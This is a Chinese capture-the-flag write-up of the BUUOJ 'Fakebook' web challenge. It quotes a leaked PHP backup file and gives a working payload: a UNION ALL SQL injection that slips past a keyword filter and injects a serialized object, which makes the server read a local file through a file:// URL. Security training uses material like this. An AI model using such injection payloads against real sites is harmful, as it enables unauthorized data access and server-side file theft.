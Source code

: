# buuoj_web_Fakebook
首先打开网页，先注册一个账户，信息随便填。
登陆之后发现username字段是一个链接，点击指向view.php?no=1

之后查看了一下robots.txt，发现user.php.bak。把源码下载下来，如下：
```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

回到view.php,先order by看一下表的列数,为4。然后就是正常的union注入，file协议读文件。但是union被过滤，这里使用union all绕过。
根据报错可知,view.php路径为/var/www/html/view.php,且需要传入序列化对象。
最后的payload是

```view.php?no=0%20union%20all%20select%201,2,3,%27O:8:"UserInfo":3:{s:4:"name";s:3:"hfs";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}%27```

F12发现blog显示内容为base64编码，解码可得flag。
